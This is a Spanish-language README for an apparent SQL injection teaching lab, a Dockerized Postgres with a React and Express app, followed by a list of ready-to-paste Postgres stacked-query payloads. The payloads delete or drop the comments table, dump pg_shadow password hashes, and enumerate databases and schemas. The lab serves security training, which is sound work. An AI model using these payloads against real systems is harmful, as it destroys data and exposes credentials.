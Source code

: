 # SQLInjection

Sistema comprendido por un docker para la base de datos y un sistema desarrollado en REACT y ExpressJS para el manejo de FRONT y APIS. 

Para ejecutar la DB (Imagen oficial de Postgres en Docker):
En la carpeta /SQLInjection ejecutar:
# docker compose up -d --build
# Se habilitará una base de datos Postgres en el puerto 7777.
# Se requiere crear la tabla "comments" se puede utilizar el siguiente comando: 
CREATE TABLE comments (
    id SERIAL PRIMARY KEY,
    usuario TEXT,
    comentario TEXT,
    fecha DATE
);

Para ejecutar lo desarrollado en REACT: 
En la carpeta /SQLInjection/sqlinjection ejecutar:
# yarn dev o npm run dev
# Se habilitará el ambiente para probar las inyecciones en el puerto 5173.
# Si no se cuentan con las librerías, ejecutar npm install o yarn install.

Para ejecutar las APIS:
En la carpeta /SQLInjection/sqlinjection/src ejecutar:
# node mainback.mjs
# Se habilitarán las APIS en el puerto 8888
# Si no se cuentan con las librerías, ejecutar npm install o yarn install.

### COMANDOS DE INYECCIÓN: 
ref:
https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

# DELETE:
comentario'); delete from "comments"; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tabla limpia

# DROP TABLE: 
comentario'); DROP TABLE comments; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tabla dropeada

# OBTENER VERSION: 
comentario'); SELECT version(); CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tengo tu version

# CREATE SCHEMA: 
comentario'); SELECT version(); CREATE SCHEMA IF NOT EXISTS getinjected; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('schema creado

# GET USERNAMES PASSOWRDS:
comentario'); SELECT * FROM pg_shadow; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tengo tus users

# GET DATABESES:
comentario'); SELECT datname FROM pg_database; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tengo tus bases de datos

# GET SCHEMAS:
comentario'); SELECT nspname FROM pg_namespace; CREATE TABLE IF NOT EXISTS getinjected (id SERIAL PRIMARY KEY, mensaje TEXT); INSERT INTO getinjected (mensaje) VALUES ('tengo tus schemas
